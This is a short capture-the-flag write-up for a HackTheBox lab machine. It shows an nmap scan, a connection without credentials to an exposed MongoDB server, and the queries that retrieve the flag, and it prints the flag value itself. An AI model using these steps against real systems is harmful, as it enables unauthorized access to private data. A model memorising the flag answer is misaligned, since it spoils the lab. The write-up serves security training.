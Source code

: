 ## Mongod HackTheBox
#### Short Bio
Super cool room on MongoDB and how to access it via CLI. **You will learn:**
- MongoDB
- MongoDB commands
- Structures of DB
___

#### `Nmap` Time:
```bash
nmap -v -A -sV --privileged -T4 10.129.228.30 -p- -O -sC
```
**`Result`**
|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|22/tcp|open|ssh|OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)|
|27017/tcp|open|mongodb|MongoDB 3.6.8|

The Nmap result is really big for this page, so I've create a seperate doc for it [here](./nmap)
We have Mongo DB and SSH open. Cool.

---
#### Accessing MongoDB
MongoDB has it's own support for cli access which is `mongo`. <br>
```bash
# To install:
apt install mongodb-clients -y

# To connect with out pass/ user:
mongo "mongodb://10.129.228.30:27017"

```
Wait a moment, don't make mistake by thinking that this is a normal shell. It's not, you need special commands specific for mongo db.

Well how do you know that? easy, just type `help`.
You will get all the commands you need.

---

#### Getting Flag
- First we will check all the available DBs. **Command** ::: `show dbs`
- we have bunch of dbs and all of them are interesting. But we know which one to check (sensitive_information)
- to use this type: `use sensitive_information`
- Now we need to see whats inside. Type: `show collections` and we can see a collection called `flag`. Now we need to get the contents of the `flag`.
- Befor viewing the contents we need to know what command to use. for that, type: `db.flag.help()`
- we get a command like this:
```terminal
db.flag.find([query],[fields]) - query is an optional query filter. fields is optional set of fields to 

e.g. db.flag.find( {x:77} , {name:1, x:1} )
```
so, lets try: `db.flag.find()` and we got:
```js
> db.flag.find()
{ "_id" : ObjectId("630e3dbcb82540ebbd1748c5"), "flag" : "1b6e6fb359e7c40241b6d431427ba6ea" }
```
Done

